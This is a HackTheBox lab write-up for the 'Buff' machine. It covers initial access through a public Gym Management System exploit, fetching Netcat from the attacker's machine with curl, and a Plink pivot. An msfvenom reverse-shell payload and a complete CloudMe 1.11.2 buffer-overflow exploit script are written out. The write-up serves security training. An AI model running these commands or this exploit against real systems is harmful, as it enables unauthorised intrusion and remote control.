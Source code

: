 ```yaml
---
title: 'HTB: Buff'
date: 2020-11-21 19:04:00 -0400
categories: [HackTheBox, Write-ups]
tags: [HTB, pivot, overflow]     # TAG names should always be lowercase
---
```


IP: 10.10.10.198

We'll start things off with an NMap scan.
![06cfc558fe03d8b0c3ed3ca3e3649822.png](./../../assets/img/06cfc558fe03d8b0c3ed3ca3e3649822.png)

The webserver on port 8080 looks to be running Gym Management System. The standard footer has been changed to hide this, but it's fairly common in CTF boxes.
![c1b4ec2904be4e3ec168d8841d9c5104.png](./../../assets/img/c1b4ec2904be4e3ec168d8841d9c5104.png)

Although the footer was changed, it can still be confirmed on the contact page.
![9b3d9de1efcab6ab008f565155f73edd.png](./../../assets/img/9b3d9de1efcab6ab008f565155f73edd.png)

We can use a public exploit to get a basic shell from here: https://www.exploit-db.com/exploits/48506

If you're running Kali 2020, you will probably need to fix the exploit in order for it to work since Python2.7 is heavily phased out. This can be done with `2to3-2.7 -w 48506.py`.
![7275456c3113cf7b9e1dcbcea0218d3d.png](./../../assets/img/7275456c3113cf7b9e1dcbcea0218d3d.png)

Now we can run the exploit properly with Python3.
![f64f50b891d5a7611026a15244cbf293.png](./../../assets/img/f64f50b891d5a7611026a15244cbf293.png)

We can grab the user flag now before we try to get a better shell on the box.
![1e8c67e104e7a1a0c79a921f93aafe15.png](./../../assets/img/1e8c67e104e7a1a0c79a921f93aafe15.png)


CertUtil doesn't want to cooperate, but we do have access to Curl. We'll host a Netcat binary with `python -m SimpleHTTPServer 80` and then run `curl -O <kali-ip>:80/nc.exe` to pull it to the target.
![4a95b684b25ee4d221f0a4bb0f455638.png](./../../assets/img/4a95b684b25ee4d221f0a4bb0f455638.png)
![e1ec03a5cab2677f02cae976dc1bf2d2.png](./../../assets/img/e1ec03a5cab2677f02cae976dc1bf2d2.png)

Now we can start a listener and then call Netcat.
![f6956c3f6f6adca55ae60ed9c1b2ad8a.png](./../../assets/img/f6956c3f6f6adca55ae60ed9c1b2ad8a.png)
![ebed04248fed4e721a46f157b490dbc6.png](./../../assets/img/ebed04248fed4e721a46f157b490dbc6.png)

If we take a look at running processes with `tasklist` we see a strange process called CloudMe.
![7843a116bb14da112accdcffccd36db4.png](./../../assets/img/7843a116bb14da112accdcffccd36db4.png)

Looking around, we find the exe in Shaun's downloads folder.
![e3abd20723ec52b108ed4dcba88307cf.png](./../../assets/img/e3abd20723ec52b108ed4dcba88307cf.png)

A quick google search shows us that this version is vulnerable to a buffer overflow attack. Given the name of the box, this should be our way to privesc.
https://www.exploit-db.com/exploits/48389

The default port for CloudMe is 8888. We can check to see if it's listening on that with `netstat -aof | findstr :8888`.


![15194e417049dd2769842e62bcc79a96.png](./../../assets/img/15194e417049dd2769842e62bcc79a96.png)

Unfortunately we can't access this directly if we look back at our Nmap scan. We'll have to find a way to pivot into it using something like Plink.
![e26a278e002293ad825c7dfbe53d1825.png](./../../assets/img/e26a278e002293ad825c7dfbe53d1825.png)

We need to run Curl in another instance of the web shell.
![7d184b4ad7770a1bd5612f598f738ed6.png](./../../assets/img/7d184b4ad7770a1bd5612f598f738ed6.png)
![4104ddb888b79f62429201098b951c84.png](./../../assets/img/4104ddb888b79f62429201098b951c84.png)

Now we can start up the SSH service on our system for the incoming connection we'll make with Plink.
![fb7892c83fd455faad4232846498a3c5.png](./../../assets/img/fb7892c83fd455faad4232846498a3c5.png)

Before we make the connection, I strongly suggest you use the `passwd` command to set a temp password, or use a temporary account in case someone manages to hijack your credentials.
![bfb63c6255693c09d4fcfbcbac53891b.png](./../../assets/img/bfb63c6255693c09d4fcfbcbac53891b.png)

After some tinkering, we find that trying to call Plink from within the CMD shell we have doesn't work. Restarting the NC shell while passing powershell.exe shows the certificate dialog so we can confirm it. We have also set our SSH service to run on port 443 as well since HTB blocks SSH out on port 22 to keep users safer.
![ef60c279631269273f4b1338b32afce9.png](./../../assets/img/ef60c279631269273f4b1338b32afce9.png)

Now we can generate a payload for the CloudMe exploit using MsfVenom.
```
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe <kali-ip> 4445 -e powershell.exe' -b '\x00\x0A\x0D' -f python -v payload
```
![d50e016d78503e5f469c1fc64f172b6b.png](./../../assets/img/d50e016d78503e5f469c1fc64f172b6b.png)

Now we have our finished exploit.
```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xd9\xd0\xd9\x74\x24\xf4\xba\x32\x4a\x21\x90\x58"
payload += b"\x2b\xc9\xb1\x40\x83\xe8\xfc\x31\x50\x14\x03\x50"
payload += b"\x26\xa8\xd4\x6c\xae\xae\x17\x8d\x2e\xcf\x9e\x68"
payload += b"\x1f\xcf\xc5\xf9\x0f\xff\x8e\xac\xa3\x74\xc2\x44"
payload += b"\x30\xf8\xcb\x6b\xf1\xb7\x2d\x45\x02\xeb\x0e\xc4"
payload += b"\x80\xf6\x42\x26\xb9\x38\x97\x27\xfe\x25\x5a\x75"
payload += b"\x57\x21\xc9\x6a\xdc\x7f\xd2\x01\xae\x6e\x52\xf5"
payload += b"\x66\x90\x73\xa8\xfd\xcb\x53\x4a\xd2\x67\xda\x54"
payload += b"\x37\x4d\x94\xef\x83\x39\x27\x26\xda\xc2\x84\x07"
payload += b"\xd3\x30\xd4\x40\xd3\xaa\xa3\xb8\x20\x56\xb4\x7e"
payload += b"\x5b\x8c\x31\x65\xfb\x47\xe1\x41\xfa\x84\x74\x01"
payload += b"\xf0\x61\xf2\x4d\x14\x77\xd7\xe5\x20\xfc\xd6\x29"
payload += b"\xa1\x46\xfd\xed\xea\x1d\x9c\xb4\x56\xf3\xa1\xa7"
payload += b"\x39\xac\x07\xa3\xd7\xb9\x35\xee\xbd\x3c\xcb\x94"
payload += b"\xf3\x3f\xd3\x96\xa3\x57\xe2\x1d\x2c\x2f\xfb\xf7"
payload += b"\x09\xdf\xb1\x5a\x3b\x48\x1c\x0f\x7e\x15\x9f\xe5"
payload += b"\xbc\x20\x1c\x0c\x3c\xd7\x3c\x65\x39\x93\xfa\x95"
payload += b"\x33\x8c\x6e\x9a\xe0\xad\xba\xd9\x3c\x0e\x3d\xbf"
payload += b"\x2d\xde\xcd\x63\xc5\x6a\x4a\xf3\x76\xe0\xce\x6c"
payload += b"\x01\x6b\xb3\x07\x81\x1f\x24\x89\x05\xbc\xd4\x2a"
payload += b"\xeb\x59\x51\xc8\xd3\x90\x91\x3c\x22\xe3\xff\x71"
payload += b"\x70\x2d\x31\x42\x58\x05\x05\x96\xad\x45\x48\xb3"
payload += b"\xed\xf5\xfd\x4c\x88\x87\x72\xdb\x37\x04\x19\x35"
payload += b"\xd2\xac\x84\x49"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

We'll start up a new Netcat listener on port 4445 and fire off the exploit.
![f46a4c0b9690f0cac479efcd83437111.png](./../../assets/img/f46a4c0b9690f0cac479efcd83437111.png)
![1f85e6943af0a92fe0a7a6f19a515609.png](./../../assets/img/1f85e6943af0a92fe0a7a6f19a515609.png)

All that's left is to grab the root flag.
![44a5971c51e4bcda3735e3b9b8477165.png](./../../assets/img/44a5971c51e4bcda3735e3b9b8477165.png)
